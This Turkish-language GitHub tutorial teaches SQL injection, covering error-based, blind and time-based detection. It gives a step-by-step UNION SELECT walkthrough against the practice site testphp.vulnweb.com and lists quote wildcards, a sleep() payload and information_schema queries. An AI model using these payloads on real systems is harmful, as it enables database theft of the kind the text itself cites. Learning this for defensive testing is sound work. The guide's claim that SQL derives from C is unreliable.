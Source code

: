 # SQLi-nedir



## SQL Mantığı:

![basit tablo](/resimler/basit%20tablo.png)

sql injectionu anlamak için öncellikle sql yapısını anlamımız lazım.

sql Structured Query Language(Yapılandırılmış sorgu dili) diye açılımı olan fakat tarihin biraz daha öncesine baktığımızda açılımı Structured English Query Language(Yapılandırılmış ingilizce sorgu dili) diye geçen yazılım dilidir. Bunun sebebi sql dediğimiz yazılım dilinin büyük bir çoğunluğun matematik operatörlerinden ziyade ingilizce sorgu yazma üzerine tasarlanmasıyla alakalıydı. sorgu kelimesini açmak gerekirse sql dili bildiğimiz satır ve sutündan oluşan bir tablo tutar. İstediğimiz satır ve sutündaki herhangi bir veriyi çekmek için abartılı ve karışık kodlar yazmak yerine ingilizce cümleler yazarız

örn: "Kullanıcılar tablosundaki kişi adlarını ve soyadlarını bana getirir misin" Cümlesinin sql dilindeki yazılışı:
 ```
 SELECT kisi_adi, kisi_soyadi FROM Kullanıcılar;
 ```
Select ibaresi istediğimiz sutünları getirmek için kullanırken from ibaresi bu sutünların hangi tablodan geleceğini belirtir.
bu anlattığım en basit sql sorgu mantığıdır daha fazlası için lütfen sql dilini araştırın.


## SQL Injection Nedir?

SQL Injection, kendi sorgularımızı hedef sitede çalışan SQL sorgularının içine karıştırarak manipüle etmeyi amaçlar. Bu sayede sitelerde, şirketlerde veya kurumlarda bulunan bütün veriler ifşalanabilir. Örneklendirmek gerekirse, [Reon Sağlık Hizmetleri](https://www.kvkk.gov.tr/Icerik/7523/Kamuoyu-Duyurusu-Veri-Ihlali-Bildirimi-Reon-Saglik-Hizmetleri-Ins-Tur-San-ve-Tic-A-S-Ozel-Aktif-Hastanesi-) şirketinin veritabanı sızdırılmış ve hastaların adı, soyadı, TC kimlik numarası gibi hassas bilgiler ifşa edilmiştir. Şirketlerin ve kurumların elindeki veritabanlarının sızıldırması hem o kurum için hemde verisi bulunan kullancılar için büyük bir tehlikedir bu yüzden sql injection iyi anlanması ve tedbirlerinin alınması gerekmektedir.

SQL Injection'a geçmeden önce sitelerin hangi tarz sorgular çalıştırdığını anlamamız gerekli çünkü bir sızma testinde kaynak kodları göremeyeceğimiz için sitenin bize verdiği tepkilerine göre arkada çalışan sorguyu tahmin etmemiz gerekir. 

Örnek Sorgu 1 :
``` 
SELECT username,password FROM accounts WHERE username = 'User1' AND password = '123456' LIMIT 1;
```
 >Bu sorgu "accounts" adlı tablodan kullanıcı adının "user1" olduğu ve şifresinin "123456" olduğu satırı getirir. En sondaki "LIMIT 1" ibaresi ise tek satırda tek sorgu çalıştırmak için sınır koyar(sqli önlemek için). Bu tarz sorgular genellikle hesap giriş işlemleri için kullanılır. Eğer kullanıcı adı ve şifresi tabloda bulunursa "true" döndürür ve hesabımıza giriş yaparız.
 
Örnek Sorgu 2 :
``` 
SELECT * FROM products WHERE category = 'Gifts' 
```
>Bu tarz sorgular genellikle alışveriş siteleri veya blog sitelerinde bulunur. 'Gifts' yazan kısmı kullanıcıdan input olarak alır ve kullanıcının aradığı kelime ile ilgili ilanlar listelenir(örnek: Alışveriş sitelerinde arama kutuları).


## Sql İnjection Tespiti:

### Error Based Sqli:

Bu sql injection modelinde sitede çalışan sql sorgusunu bozarak sitenin bize hata mesajı göstermesi amaçlanmaktadır. Bu sayede hacker sql sorgusuna müdahele edebildiğini ve yazdığı payloadın hiç bir filtrelemeye takılmadan çalıştığını anlar.

Örneklendirmek gerekirse:

![error based](/resimler/phpvuln.png)

[PhpVuln](http://testphp.vulnweb.com/listproducts.php?cat=1) sitesinde kategori listelemek için bir parametre alıyor. Bunu " ?cat=1 " ibaresinden anlayabiliriz. cat kelimesi de category kelimesinin kısaltırması olduğunu tahmin ediyorum.

![tek_tirnak](/resimler/tek_tirnak.png)

Sitedeki url nin sonuna bir tane tek tırnak atarak sitede çalışan sorguyu bozmayı deneyeceğim.

![error based](/resimler/error_based.png)

ve site bize sql hatası verdi. Bu sonuca bakarsak bu sitede sql injection var diyebiliriz.

sonuç olarak arkadaki sorguyu şekillendirmeye çalışırsam şöyle olurdu

```
SELECT Productname, Description, Authors, ... FROM Listing WHERE category = '1'
```
>yukarıda yazdığım kolon adları ve tablo ismi tamamen tahmindir. Tablo adını ve kolonları öğrenmek için başka metodlar kullanmalıyız.


Error Based Sql İnjection için bazı wildcardlar:
``` 

'
"
')
")
`)
'))
"))
`))
--

```

### Blind Sqli:

Kör injection, yazdığımız sorguların bize herhangi bir dönüşünü göremediğimiz sorgulardır. genellikle site bize doğru sorgu yazarsak true yanlış kod yazarsak false döndürür. Hacker ise " % " operantını kullanarak kelimeleri tahmin etmeye çalışır. örneklendirmek gerekirse bir tabloda Kullanıcı adlarını çekmeye çalışalım. Bize true döndüren sorgunun sonuna "WHERE username LIKE 'a%'" deriz ve a ile başlayan kullanıcı adı varsa true döndürür eğer yoksa a yerine 29 harfi teker teker dener. Bir kullanıcı adının tamamı bu şekilde bulunur. Biraz yorucu gibi gözüksede otomatik toollarla bir hayli kolaylaşıyor.





### Time Based Sqli:
Zaman tabanlı sql injection, Girdiğimiz sorgu sonucunda ne bir hata çıktısı ne de bir true false döndürdüğü durumları kapsar. Hacker yazdığı kodun çalışıp çalışmadığını anlamak için kodunun sonuna bekleme komutu koyar ve ona dönen cevabın kaç saniyede döndüğüne göre sql açığını tespit eder. Örneklendirmek gerekirse
``` 
select sleep(10) from users where....
```
ifadesini var olan sorgunun sonuna yazar ve normalde dönecek olan cevabın 10 saniye daha geç gelmesini bekler. Eğer başarılı olursa sql injection vardır.





## Örnek SQL Injection:

Hedef Sitemiz : [vulnweb](http://testphp.vulnweb.com/listproducts.php?cat=1)

Aşamaları sıra ile sizde deneyerek sql injection yapmayı deneyebilirsiniz.

1) Test alanını belirlemek:<br>
![error based](/resimler/phpvuln.png)<br>
"?cat=1" parametresi bana şüpheli geldi ve burada sql injection testleri yapmaya karar verdim.<br>
```
http://testphp.vulnweb.com/listproducts.php?cat=1
```
2) sql injection zaafiyetinin tespiti:<br>
![tek_tirnak](/resimler/tek_tirnak.png)<br>
Tek Tırnak atarak sorguyu bozmaya çalışıyorum ve başarılı oluyorum.<br>
![error based](/resimler/error_based.png)<br>
```
http://testphp.vulnweb.com/listproducts.php?cat=1'
```
3) Şimdi kolon sayısını bulmamız lazım. Bunun Sebebi sql dili c dilinden üretilmiştir ve c dili matrix hesabı yaparken sutün sayıları eşit olmak zorundadır. Bu yüzden sırayla sutün sayısı arttırıyorum. not: ile 1,2,... şeklinde arttırmak yerine NULL,NULL,... şeklinde de arttırablirsiniz. not2: sitedeki diğer ilanları görmemek ve rahat çalışabilmek için sorgunun başındaki "?cat=1" ifadesindeki 1 değerini 99999 yaptım(yani olmayan bir id talep ettim).<br>
![729](/resimler/729.png)<br>
Bu sayede olmayan bir ilan geldi ve 7, 2, 9, 11 sayıları geldi bu sayılar bu sitedeki içeriklerin hangi kolondan geldiğini beliritiyor.url de belirtilen sayılar yerine artık sql fonksiyonları yazabiliriz<br>
```
http://testphp.vulnweb.com/listproducts.php?cat=999999 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11
```
4) Kolon sayısını bulduktan sonra information_schema içindeki diğer tabloların bilgilerine erişeceğiz. information_schema'ı basitçe anlatmak gerekirse sistemdeki databaselerin bilgilerini tutan genel bir databasedir. bizde bu database sömüreceğiz.
```
http://testphp.vulnweb.com/listproducts.php?cat=999999 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 FROM information_schema.tables WHERE table_name = 'users'
```
![Tablolar](/resimler/tablolar.png)
